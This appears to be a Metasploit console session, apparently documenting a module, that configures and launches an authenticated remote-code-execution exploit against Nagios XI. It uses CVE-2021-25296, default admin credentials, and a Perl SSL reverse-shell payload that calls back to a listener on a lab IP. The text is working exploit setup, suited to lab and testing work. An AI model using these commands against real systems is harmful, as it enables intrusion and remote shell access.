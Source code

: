 ```
RHOST => 192.168.153.132
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FIN
set FINGERPRINTCHECK  set FINISH_INSTALL
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set FINISH_INSTALL true
FINISH_INSTALL => true
msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  true             no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly
                                              generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   TARGET_CVE      CVE-2021-25296   yes       CVE to exploit (CVE-2021-25296, CVE-2021-25297, or CVE
                                              -2021-25298)
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      no        Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   CMD



View the full module info with the info, or info -d command.

msf exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

```